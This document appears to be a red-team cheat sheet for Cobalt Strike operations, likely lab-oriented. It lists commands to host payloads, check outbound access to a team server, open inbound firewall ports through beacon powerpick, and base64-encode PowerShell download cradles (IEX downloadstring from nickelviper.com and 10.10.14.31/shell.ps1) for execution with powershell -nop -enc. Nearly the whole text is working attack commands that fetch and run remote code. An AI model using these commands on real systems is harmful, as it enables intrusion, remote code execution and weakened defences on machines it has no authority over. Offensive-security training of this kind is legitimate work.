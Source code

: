 Run a python3 webserver:
```bash
$ python3 -m http.server
```

Check outbound access to TeamServer:
```powershell
$ iwr -Uri http://nickelviper.com/a
```

Change incoming firewall rules
```powershell
beacon> powerpick New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
beacon> powerpick Remove-NetFirewallRule -DisplayName "Test Rule"
```

Encode the powershell payload for handling extra quotes:

- Powershell:
```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

- Linux:
```bash
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Finally
```powershell
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```
